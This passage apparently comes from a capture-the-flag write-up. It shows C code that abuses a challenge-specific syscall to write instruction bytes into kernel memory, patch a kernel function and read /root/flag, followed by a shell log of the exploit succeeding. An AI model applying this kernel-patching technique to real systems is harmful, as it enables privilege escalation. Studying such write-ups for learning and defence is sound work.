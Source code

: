 
So now let's write it to the desired address (`0x800c7d68`, one instruction after the first instruction) and see if we can read the file.

Here is C code that use our kernel memory WRITE capabiltiy to patch the kernel function.
```c
#include <unistd.h>
#include <sys/syscall.h>
#include <stdio.h>
#include <string.h>

#define INPUT_SIZE 1024

int main() {
    int counter = 0;
    int upper_syscall_descriptor = 223;
    int output = 0x800c7d68;
    char input[INPUT_SIZE] = "\x02\x20\x52\xe0\x04\x01\x2d\xe9\x01\x01\xbd\xe8\xf8\x80\xbd\xe8";

    syscall(upper_syscall_descriptor, input, output);
    printf("Kernel has been patched!");
    system("cat /root/flag");
}

```



## ~pwned
```
/tmp $ gcc -std=c99 patch.c -o patch
/tmp $ ./patch
Congratz!! addr_limit looks quite IMPORTANT now... huh?
Kernel has been patched!/tmp $
```


